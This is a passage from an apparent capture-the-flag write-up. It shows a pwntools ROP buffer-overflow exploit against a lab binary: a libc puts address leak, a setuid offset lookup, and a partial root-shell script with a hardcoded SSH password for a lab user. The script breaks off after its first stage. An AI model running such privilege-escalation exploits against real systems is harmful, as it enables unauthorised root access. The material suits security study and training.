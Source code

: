 

It works, but I am still margo:



    root@kali# python ./root_shell-lowpriv.py
    [+] Connecting to 10.10.10.139 on port 22: Done
    [*] margo@10.10.10.139:
        Distro    Ubuntu 18.04
        OS:       linux
        Arch:     amd64
        Version:  4.15.0
        ASLR:     Enabled
    [+] Starting remote process 'garbage' on 10.10.10.139: pid 1994
    [+] Leaked puts address: 0x7fbb9651b9c0
    [*] Switching to interactive mode

    $ $ id
    uid=1002(margo) gid=1002(margo) groups=1002(margo)



The program is dropping privilege. I can use setuid to get back to root.

### More Offsets



    root@kali:/opt/libc-database# readelf -s libs/libc6_2.27-3ubuntu1_amd64/libc.so.6 | grep " setuid@@GLIBC"
        23: 00000000000e5970   144 FUNC    WEAK   DEFAULT   13 setuid@@GLIBC_2.2.5



I'll add this to my rop.

### root Shell

Now I have a script that gives me a root shell:



    #!/usr/bin/env python

    from pwn import *

    #context.log_level = "DEBUG"
    sshConn = ssh(host='10.10.10.139', user='margo', password='iamgod$08')
    garbage = sshConn.process('garbage')

    junk     = "A" * 136      # offset from pattern
    pop_rdi  = p64(0x40179b)  # rop-tool gadget garbage | grep rdi
    puts_plt = p64(0x401050)  # objdump -D garbage | grep puts@GLIBC
    puts_got = p64(0x404028)  # objdump -D garbage | grep puts@GLIBC
    main     = p64(0x401619)  # objdump -D garbage | grep '<main>' 

    stage_1 = junk + pop_rdi + puts_got + puts_plt + main
    garbage.sendline(stage_1)
    garbage.recvuntil("access denied.\n")
    leaked_puts = u64(garbage.recvline()[:-1].ljust(8, '\x00'))
    log.success("Leaked puts address: 0x%x" % leaked_puts)
    garbage.recvuntil("Enter access password: ")

